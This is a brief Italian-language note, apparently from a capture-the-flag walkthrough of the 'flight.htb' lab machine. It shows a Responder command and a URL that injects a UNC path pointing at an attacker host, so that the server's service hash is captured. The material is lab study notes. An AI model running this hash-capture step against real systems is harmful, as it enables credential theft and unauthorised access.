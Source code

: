 ### **RESPONDER**
Dumpi l'hash del servizio
```bash
responder -I tun0 -wPv
```
[http://school.flight.htb/index.php?view=//ip-attack/test](http://school.flight.htb/index.php?view=//ip-attack/test)
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

